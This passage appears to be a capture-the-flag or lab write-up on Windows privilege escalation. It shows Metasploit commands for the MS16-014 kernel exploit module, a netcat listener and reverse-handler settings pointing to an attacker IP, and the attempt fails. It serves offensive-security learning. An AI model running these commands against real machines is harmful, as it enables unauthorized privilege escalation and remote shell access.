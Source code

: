 
##### Detection & Exploitation
Now, we have a shell as a low-privilege user, we want to become administrators and we use the kernel exploit MS16_014. 
We use the **ms16_014_wmi_recv_notif** module of metasploit.

Before selecting the module needed to exploit this, we check the Metasploit session, since the ms16_014_wmi_recv_notif module needs a session to set.

```
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > sessions

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  5         meterpreter x86/windows  TCM-PC\user @ TCM-PC  10.8.80.159:4444 -> 10.10.202.219:65430 (10.10.202.219)
```

Then we set a listener with the command ```nc -lnvp 5555``` and, finally, we set the **session** field (we put the session Id of the low-privilege access), the **lhost** field, and the **lport** with the Kali machine IP and the port that we use for the listener:

```
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set session 5
session => 5
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set lhost 10.8.80.159
lhost => 10.8.80.159
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set lport 5555
lport => 5555
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.8.80.159:5555 
[-] Exploit aborted due to failure: no-target: Running against WOW64 is not supported
[*] Exploit completed, but no session was created.
```

After many attempts, this approach doesn't work for me. 
Maybe because the system is not vulnerable, indeed, by running the Metasploit module **post/multi/recon/local_exploit_suggester** to suggest the exploits, there isn't the ms16_014:

![Exploit suggester](/assets/img/posts/windows-privesc/task14_exploit.png)

